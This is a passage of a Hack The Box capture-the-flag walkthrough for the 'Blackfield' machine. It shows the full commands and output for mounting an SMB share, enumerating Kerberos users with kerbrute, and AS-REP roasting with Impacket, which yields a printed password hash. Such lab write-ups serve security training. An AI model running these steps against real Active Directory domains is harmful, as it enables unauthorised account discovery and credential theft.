 Lets try to find interesting files on the share
```
$ sudo mkdir /mnt/htb
$ sudo mount -t cifs '//10.10.10.192/profiles$' /mnt/htb 
Password for root@//10.10.10.192/profiles$:

ls /mnt/htb > users.lst

cd /mnt/htb/
find .
```
No many useful files here. Lets umount the share
```
sudo umount /mnt/htb
```



download kerbrute from GitHub
https://github.com/ropnop/kerbrute/releases/

```
cd ~/Downloads
$ wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64
$ chmod +x kerbrute_linux_amd64
```

```
$ cd ~/Projects/CTFs/HTB/Blackfield
$ ~/Downloads/kerbrute_linux_amd64 userenum --dc 10.10.10.192 -d blackfield -o kerbrute.userenum.out users.lst
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 08/29/22 - Ronnie Flathers @ropnop

2022/08/29 18:38:36 >  Using KDC(s):
2022/08/29 18:38:36 >   10.10.10.192:88

2022/08/29 18:38:56 >  [+] VALID USERNAME:       audit2020@blackfield
2022/08/29 18:40:50 >  [+] VALID USERNAME:       support@blackfield
2022/08/29 18:40:55 >  [+] VALID USERNAME:       svc_backup@blackfield
2022/08/29 18:41:21 >  Done! Tested 314 usernames (3 valid) in 164.897 seconds
```

create a file with the valid user list
```
$ cat kerbrute.userenum.out | grep 'VALID USERNAME' | awk '{print $7}' | awk -F@ '{print $1}' > valid_users.lst
```

Running GetNPUsers to perform an ASREP Roast
```
$ ~/impacket/examples/GetNPUsers.py -dc-ip 10.10.10.192 -no-pass -usersfile valid_users.lst blackfield/ 
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$support@BLACKFIELD:1789b3b1806295eaf5d3495c08a02368$b93197c0cd6ab874b929ca7ab9d4703fe5a4ef01b5f3b9da9b0767a715a47f171679b9fb8f5a5797eb21aa89e6d1012bf4e4f054b4cad69ea7963794a6ac6c889b53def8bf7655c3554174e12cbe2888a8f5530856fc62c35c88f069ca4ad63acd08754995b1f9ad7bbeffb0b414c442de5f83a2e409561fddcdd9bcb1acc994a05478a8bd6c05a8d76ca2798fd50de5163a2a3a73107e02fa73524af47ce2d3db2f7b2d8e3c9ec62489b9c277346561a1f53e02419302a29872bf2be97151c3434fd22e380025c20df8fbba2b029d5905d7db4495b9b89fdcfc8271906da0bcd888c9d7c081736c9cb36f485480
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
```
